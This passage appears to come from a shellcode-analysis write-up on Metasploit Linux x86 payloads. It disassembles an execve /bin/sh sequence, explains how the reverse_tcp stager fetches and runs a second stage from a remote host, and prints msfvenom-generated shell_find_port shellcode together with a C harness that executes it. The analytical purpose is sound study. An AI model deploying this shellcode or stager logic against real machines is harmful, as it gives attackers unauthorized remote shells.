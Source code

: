 ```nasm
   0xbffff296:	push   0x68732f2f     ; //sh	
   0xbffff29b:	push   0x6e69622f     ; /bin    
   0xbffff2a0:	mov    ebx,esp        ; EBX point to /bin//sh

   0xbffff2a2:	push   edx            ; push null
   0xbffff2a3:	push   ebx            ; push string address
   0xbffff2a4:	mov    ecx,esp	      ; ECX point to ["/bin//sh", null]
   0xbffff2a6:	int    0x80	      
```

So we have seen that the linux/x86/shell/reverse_tcp payload implements some sort of errors handling on each syscall, exiting properly if an error occurs.
Its normal operation is as follow, it try up to ten times to connect to the specified ip address and port.  
On success, it set read, write, execute permission on the memory page whose belongs the memory address of the top of the stack, 
then it read the second stage payload from the remote host and copy it into memory starting at the stack top address.
Finally it jump to the second stage payload to execute it, here, the payload send by metasploit retrieve the sockfd because it know in which register it is saved, then it use a dup2(sockfd,...) loop/execve("/bin//sh") payload.


### linux/x86/shell_find_port

Its description in msfvenom is :  Spawn a shell on an established connection
So it need to be used in a context where there is already an opened connection to our host,
to reuse this connection and spawn a shell on it. 
It made me think of a second stage payload, it's why I've chosen it. 

So in a first time, we need to generate it and we will set the port to find to 1337 :
```plaintext
root@kali:~# msfvenom -p linux/x86/shell_find_port cport=1337 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 62 bytes
Final size of c file: 287 bytes
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x05\x39\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";
```

Then we copy/paste it into this C code :
```c
#include<stdio.h>
#include<string.h>

unsigned char payload[] = \
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x05\x39\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";

int main()
{

	printf("Payload Length:  %d\n", strlen(payload));

	int (*ret)() = (int(*)())payload;

	ret();
```